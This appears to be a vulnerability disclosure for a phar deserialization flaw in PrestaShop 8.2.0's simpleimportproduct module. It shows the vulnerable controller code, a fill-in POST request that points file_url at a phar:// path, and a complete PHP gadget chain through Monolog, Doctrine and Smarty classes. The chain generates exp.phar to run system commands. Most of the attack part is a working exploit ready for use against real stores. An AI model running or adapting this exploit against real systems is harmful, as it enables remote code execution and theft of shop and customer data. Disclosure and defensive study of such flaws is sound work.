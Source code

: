 # `phar` deserialization vulnerability `AdminProductsimportController.php#_getHeaders` function

## 0x01 Affected version
vendor: https://github.com/PrestaShop/PrestaShop
version: 8.2.0
php version: 7.x
module: simpleimportproduct
## 0x02 Vulnerability description
In PHP, the `Phar file format` is an archive format used to package and distribute PHP applications. This format allows multiple files, directories, and metadata to be bundled into a single file. However, the Phar format contains a deserialization vulnerability that allows an attacker to trigger the deserialization vulnerability by crafting a malicious Phar file. This vulnerability typically occurs when deserializing user input without filtering, allowing the attacker to control the contents of the deserialized object and execute arbitrary code.

Specifically, an attacker can exploit this vulnerability by creating a malicious Phar file and uploading it to a vulnerable PHP server. By triggering the `phar://` protocol, the attacker can read and deserialize the data from the file. The deserialization process can lead to the execution of arbitrary PHP code, allowing the attacker to remotely execute code, retrieve sensitive information, or perform other malicious actions.

The severity of this vulnerability lies in its ability to allow unauthorized remote code execution, enabling an attacker to fully compromise the system, further manipulate the server, or steal sensitive data.

In `PrestaShop v8.2.0`, within the `AdminProductsimportController.php#_getHeaders` function, the `get_headers` method is used. When `$file_url='phar://**'`, remote attackers can achieve remote code execution.The fopen function is a key method that triggers the Phar deserialization vulnerability.

The call stack
```
1. AdminProductsimportController#ajaxProcessLoadFile
2. AdminProductsimportController#_getHeaders
3. get_headers
```
ajaxProcessLoadFile()
```php
public function ajaxProcessLoadFile(){
    try{
      if( !Tools::getValue('import_settings_name') ){
        throw new Exception( Module::getInstanceByName('simpleimportproduct')->l('Please enter Settings Name!') );
      }

      if( Tools::getValue('feed_source') == 'file_url' ){
        $this->_getHeaders();
      }

    }
}
```
_getHeaders()
```php
    if( Tools::getValue('zip_file') ){
    }
    else{
      $file = Tools::getValue('file_url');
      $remoteHeaders = get_headers($file);
    }
```

post_data
> after login,just replace the {ip} and {file_url}
```
http://{ip}/admin/index.php 
POST：ajax=true&token=30bab4ff1c14f8da75f9dc9128ce4ef5&controller=AdminProductsimport&action=loadFile&id_shop=1&id_lang=1&id_shop_group=1&format_file=xlsx&delimiter_val=%3B&import_type_val=Add%2Fupdate&parser_import_val=name&supplier_to_update=&combination_identification=0&use_headers=1&zip_file=0&disable_hooks=1&search_index=1&products_range=all&from_range=1&to_range=10&force_ids=0&iteration=100&file_url={phar://***}&feed_source=file_url&file_import_ftp_server=&file_import_ftp_user=&file_import_ftp_password=&file_import_ftp_port=21&file_import_ftp_port_ssl=22&passive_mode=0&remove_ftp_file=0&file_import_ftp_file_path=&import_settings_name=aaa&setting_id=
```

The following code can be used to generate a malicious Phar file.

```php
<?php
namespace Monolog\Handler{
    interface HandlerInterface
    {}
    interface ResettableInterface
    {
    }
    abstract class AbstractHandler implements HandlerInterface, ResettableInterface
    {
        protected $level = 1;
        protected $bubble = true;
        protected $formatter;
        protected $processors = array();
    }
    class FingersCrossedHandler extends AbstractHandler {
        protected $handler;
        protected $activationStrategy;
        protected $buffering = true;
        protected $bufferSize;
        protected $buffer = array();
        protected $stopBuffering;
        protected $passthruLevel;

        public function __construct($handler){
            $this->passthruLevel = 0;
            $this->buffer = array(
                "a"=>array(
                    "level"=>100
                )
            );
            $this->handler = $handler;
            // $this->handler =
        }
    }
}


namespace Doctrine\ORM\Mapping{
    interface ClassMetadata{}
    class ClassMetadataInfo implements ClassMetadata
    {
        public const INHERITANCE_TYPE_NONE = 1;
        public const INHERITANCE_TYPE_JOINED = 2;
        public const INHERITANCE_TYPE_SINGLE_TABLE = 3;
        public const INHERITANCE_TYPE_TABLE_PER_CLASS = 4;
        public const GENERATOR_TYPE_AUTO = 1;
        public const GENERATOR_TYPE_SEQUENCE = 2;
        public const GENERATOR_TYPE_TABLE = 3;
        public const GENERATOR_TYPE_IDENTITY = 4;
        public const GENERATOR_TYPE_NONE = 5;
        public const GENERATOR_TYPE_UUID = 6;
        public const GENERATOR_TYPE_CUSTOM = 7;
        public const CHANGETRACKING_DEFERRED_IMPLICIT = 1;
        public const CHANGETRACKING_DEFERRED_EXPLICIT = 2;
        public const CHANGETRACKING_NOTIFY = 3;
        public const FETCH_LAZY = 2;
        public const FETCH_EAGER = 3;
        public const FETCH_EXTRA_LAZY = 4;
        public const ONE_TO_ONE = 1;
        public const MANY_TO_ONE = 2;
        public const ONE_TO_MANY = 4;
        public const MANY_TO_MANY = 8;
        public const TO_ONE = 3;
        public const TO_MANY = 12;
        public const CACHE_USAGE_READ_ONLY = 1;
        public const CACHE_USAGE_NONSTRICT_READ_WRITE = 2;
        public const CACHE_USAGE_READ_WRITE = 3;
        public const GENERATED_NEVER = 0;
        public const GENERATED_INSERT = 1;
        public const GENERATED_ALWAYS = 2;
        public $name;
        public $namespace;
        public $rootEntityName;
        public $customGeneratorDefinition;
        public $customRepositoryClassName;
        public $isMappedSuperclass = false;
        public $isEmbeddedClass = false;
        public $parentClasses = [];
        public $subClasses = [];
        public $embeddedClasses = [];
        public $namedQueries = [];
        public $namedNativeQueries = [];
        public $sqlResultSetMappings = [];
        public $identifier = [];
        public $inheritanceType = self::INHERITANCE_TYPE_NONE;
        public $generatorType = self::GENERATOR_TYPE_NONE;
        public $fieldMappings = [];
        public $fieldNames = [];
        public $columnNames = [];
        public $discriminatorValue;
        public $discriminatorMap = [];
        public $discriminatorColumn;
        public $table;
        public $lifecycleCallbacks = [];
        public $entityListeners = [];
        public $associationMappings = [];
        public $isIdentifierComposite = false;
        public $containsForeignIdentifier = false;
        public $containsEnumIdentifier = false;
        public $idGenerator;
        public $sequenceGeneratorDefinition;
        public $tableGeneratorDefinition;
        public $changeTrackingPolicy = self::CHANGETRACKING_DEFERRED_IMPLICIT;
        public $requiresFetchAfterChange = false;
        public $isVersioned = false;
        public $versionField;
        public $cache;
        public $reflClass;
        public $isReadOnly = false;
        protected $namingStrategy;
        public $reflFields = [];
        private $instantiator;
        public function __construct($handler,$code){
            $this->instantiator = $handler;
            $this->name = $code;
        }
    }
}
namespace {
	ini_set("display_errors", "On");
	ini_set("error_reporting",E_ALL);
    class SmartyLazyRegister
    {
        protected $registry = [];
        protected static $instances = [];
        public function __construct($func){
            $this->registry["instantiate"] = $func;

        }
    }
    $func = "system";
    $code = "calc";
    $lazy = new SmartyLazyRegister($func);
    $meatinfo = new Doctrine\ORM\Mapping\ClassMetadataInfo($lazy,$code);
    $handler = array($meatinfo,"newInstance");

    $FingersCrossedHandler = new Monolog\Handler\FingersCrossedHandler($handler);
    $phar = new Phar("exp.phar"); 
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ?>'); 
    $phar->setMetadata($FingersCrossedHandler);
    $phar->addFromString("exp.txt", "test"); 
    $phar->stopBuffering();

    echo base64_encode(serialize($FingersCrossedHandler));
}
```






